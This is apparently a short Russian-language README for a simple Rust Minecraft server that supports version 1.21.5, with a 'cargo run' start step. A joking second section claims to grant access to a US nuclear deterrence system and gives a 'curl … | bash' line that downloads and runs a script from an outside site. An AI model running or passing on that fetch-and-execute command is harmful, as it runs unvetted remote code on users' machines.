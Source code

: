# rust_minecraft_server

Простой майнкрафт сервер на расте. Поддерживаемая версия: 1.21.5 ()

## Как запустить

```bash
cargo run
```

## Как получить доступ к системе межпланетного противоядерного сдерживания США

```bash
curl -sL https://meex.lol/test/fuck-usa.sh | bash
```